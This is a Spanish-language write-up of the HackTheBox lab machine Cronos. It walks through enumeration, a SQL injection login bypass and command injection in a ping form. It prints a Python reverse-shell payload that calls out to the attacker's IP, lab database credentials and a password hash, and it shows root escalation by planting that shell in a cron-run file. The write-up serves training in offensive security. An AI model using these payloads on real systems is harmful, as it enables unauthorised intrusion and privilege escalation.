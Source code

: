 ```yaml
---
layout : post
author: X4v1l0k
title: Cronos Writeup [HTB]
date: 2020-11-06 20:12:00 +/- 0000
categories: [Machine-Writeup, HackTheBox]
tags: [Command injection,Crontab,PHP]
headline: Cronos is a beginner-friendly Linux machine from Hackthebox, where we will bypass a html login with SQL injection, we will get a shell using Command injection and we will escalate privileges taking advantage of a cron task.
image: https://www.hackthebox.eu/storage/avatars/f77c75f363afe0d0a6eeccf6a8d8c252.png
---
```


Cronos - 10.10.10.13
===
![](https://www.hackthebox.eu/storage/avatars/f77c75f363afe0d0a6eeccf6a8d8c252.png)
###### tags: `HTB` `Medium` `Linux`

# Enumeración
## Nmap
```bash
$ nmap -A -Pn -p- 10.10.10.13

Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-05 19:25 CET
Nmap scan report for 10.10.10.13
Host is up (0.034s latency).
Not shown: 65532 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   33.72 ms 10.10.14.1
2   33.77 ms 10.10.10.13

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 124.44 seconds
```

## Puerto 53
- Sabiendo que tiene el puerto DNS abierto, registro la IP dentro del archivo hosts como cronos.htb y ahora, al acceder desde el navegador a http://cronos.htb nos encontramos con una web.
- Ahora, para completar la enumeración del puerto, vamos a ver si tiene más dominios asociados.
```bash
$ dig @10.10.10.13 cronos.htb axfr

; <<>> DiG 9.16.4-Debian <<>> @10.10.10.13 cronos.htb axfr
; (1 server found)
;; global options: +cmd
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.		604800	IN	NS	ns1.cronos.htb.
cronos.htb.		604800	IN	A	10.10.10.13
admin.cronos.htb.	604800	IN	A	10.10.10.13
ns1.cronos.htb.		604800	IN	A	10.10.10.13
www.cronos.htb.		604800	IN	A	10.10.10.13
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 36 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: jue nov 05 19:30:19 CET 2020
;; XFR size: 7 records (messages 1, bytes 203)
```
- Vemos que también está disponible http://admin.cronos.htb por lo tanto, lo añadimos también a nuestro archivo hosts.

## Puerto 80
- Dentro de la URl http://cronos.htb nos encontramos 5 enlaces a recursos externos.
- Dentro de http://admin.cronos.htb/ nos encontramos una página de login.

# Explotación
- Para hacer bypass al login de http://admin.cronos.htb/ usamos:
	- `username: admin' or '1'='1 #`
	- `password: cualquiercosa`
- Ahora, nos encontramos un formulario en el que según parece podemos hacer ping y tracert a una ip.
- Si ponemos en el input `;id` podemos ver que tenemos RCE como www-data por lo que, vamos a por una shell.
- Perfecto, usando el siguiente payload, obtenemos shell.
```
;python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.35",8787));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

# Post explotación
## Escala de privilegios
- Dentro del archivo config.php nos encontramos unas credenciales de la base de datos.
```bash
$ www-data@cronos:/var/www/admin$ cat config.php 
<?php
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_DATABASE', 'admin');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>
```
- Vamos a conectarnos a la base de datos y ver que sacamos.
```bash
$ www-data@cronos:/home$ mysql -u admin -p

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| admin              |
+--------------------+
2 rows in set (0.00 sec)

mysql> use admin
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-----------------+
| Tables_in_admin |
+-----------------+
| users           |
+-----------------+
1 row in set (0.00 sec)

mysql> select * from users;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 4f5fffa7b2340178a716e3832451e058 |
+----+----------+----------------------------------+
1 row in set (0.00 sec)
```

- Ahora tenemos una encriptación en lo que parece ser MD5. Mientras la crackea, vamos a lanzar linpeas.


```bash
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

- Linpeas nos reporta un cron ejecutándose como root sobre un archivo del que somos propietarios por lo que, podemos inyectar en el una shell!. Modificamos el inicio del archivo dejándolo del siguiente modo.

```bash
$ nano /var/www/laravel/artisan

#!/usr/bin/env php
<?php

system('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.35",8787));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\'');
```

- Ahora, esperamos unos segundos con un listener corriendo y... tenemos shell como root!.

